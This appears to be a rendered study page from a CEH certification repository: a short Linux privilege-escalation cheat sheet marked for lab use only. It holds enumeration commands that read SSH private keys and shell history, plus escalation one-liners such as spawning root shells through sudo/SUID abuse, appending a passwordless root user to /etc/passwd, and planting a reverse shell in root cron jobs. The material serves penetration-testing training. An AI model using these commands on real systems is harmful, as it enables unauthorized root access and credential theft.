

repository: morandeirachema/CyberCerts · page: certs/ceh/cheatsheets/privilege-escalation/index.html · generator: mkdocs

# Privilege Escalation

From a foothold to root/SYSTEM. Pairs with [Module 06](../modules/06-system-hacking/README.md) and [Kali ch.14](../kali/14-post-exploitation-pivoting.md). **Lab / authorized only.**

## Linux — enumerate first
```bash
id ; sudo -l ; uname -a ; cat /etc/os-release
find / -perm -4000 -type f 2>/dev/null          # SUID binaries
find / -perm -2000 -type f 2>/dev/null          # SGID
getcap -r / 2>/dev/null                          # file capabilities
crontab -l ; cat /etc/crontab ; ls -la /etc/cron.*   # writable/root cron jobs
find / -writable -type d 2>/dev/null | grep -v proc  # writable dirs
cat ~/.bash_history /home/*/.ssh/id_* 2>/dev/null    # creds/keys
# automated:
./linpeas.sh            # PEASS-ng (serve from Kali: python3 -m http.server 80)
```

### Linux privesc paths
| Finding | Exploit |
|---|---|
| `sudo -l` shows a command | Abuse it (see GTFOBins) — e.g. `sudo find . -exec /bin/sh \;` |
| SUID binary | Run it to spawn a shell (GTFOBins), e.g. `nmap --interactive` → `!sh` |
| Writable `/etc/passwd` | Add a root user: `echo 'r::0:0::/root:/bin/bash' >> /etc/passwd` |
| Writable cron script run by root | Put a reverse shell in it |
| `CAP_SETUID` capability | `./binary` → drop to uid 0 |
| Kernel version vulnerable | `searchsploit linux kernel <ver>` (DirtyPipe/DirtyCow/PwnKit) |
| PwnKit (polkit) CVE-2021-4034 | Run the public PoC |

> **GTFOBins is the key reference** for SUID/sudo/cap abuse: https://gtfobins.github.io/
